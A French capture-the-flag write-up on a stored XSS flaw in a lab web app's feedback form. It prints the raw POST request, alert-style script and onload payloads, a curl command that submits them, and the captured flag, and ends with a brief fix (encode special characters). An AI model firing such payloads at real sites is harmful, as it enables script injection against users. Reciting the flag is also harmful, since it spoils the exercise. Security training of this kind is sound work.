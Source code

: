 # XSS stored injection

## Exploitation

Sur la page `?page=feedback:` on peut voir un formulaire pour laisser un feedback ce mesage apres avoir ete submit s'affiche sans aucune verification dans la page elle meme. 

Requete:
http://192.168.122.55/?page=feedback
xss stored

request:

```
POST /?page=feedback HTTP/1.1
Host: 192.168.122.55
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 105
Origin: http://192.168.122.55
Connection: close
Referer: http://192.168.122.55/?page=feedback
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Upgrade-Insecure-Requests: 1
```

```
txtName=<body onload=alert(0)>&mtxtMessage=%3Cscript%3Ealert%280%29%3C%2Fscript%3E&btnSign=Sign+Guestbook
```

En veritee pour l'exercice le flag s'obtiens seulement en marquant le terme "script" dans le champ message.
Pour obtenir une reelle XSS on utiliseras un onload dans le champ Name.

Avec curl :

```bash
$> curl 'http://192.168.99.100/?page=feedback' --data 'txtName=%3Cbody+onlo&mtxtMessage=%3Cbody+onload%3Dalert%280%29%3E+script&btnSign=Sign+Guestbook' | grep flag

The flag is : 0fbb54bbf7d099713ca4be297e1bc7da0173d8b3c21c1811b916a3a86652724e
```

## Resolution

Pour eviter ce type de failles on preferas encoder les caracteres speciaux 

 ---- Never Trust User Input ----
